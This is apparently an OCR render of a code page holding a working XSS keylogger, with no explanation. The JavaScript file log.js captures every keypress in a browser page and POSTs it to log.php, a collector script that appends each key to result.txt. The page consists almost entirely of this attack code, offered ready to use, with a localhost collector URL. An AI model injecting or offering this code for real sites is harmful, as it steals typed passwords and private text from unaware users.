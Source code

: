 ```js
//log.js

document.onkeypress = function (evt) {
    evt = evt ? evt : window.event;
    key = String.fromCharCode(evt.keyCode ? evt.keyCode : evt.charCode);
    if (key) {
        var http = new XMLHttpRequest();
        var param = encodeURI(key);
        http.open("POST", "http://127.0.0.1/xss-keypess/log.php", true);
        http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        http.send("key=" + param);
    }
}
```

```php
//log.php

<?php
$key=$_POST['key'];
$logfile='result.txt';
$fp=fopen($logfile,"a");
fwrite($fp,$key);
fclose($fp);
?>
```

![image-20240912205931002](./assets/image-20240912205931002.png)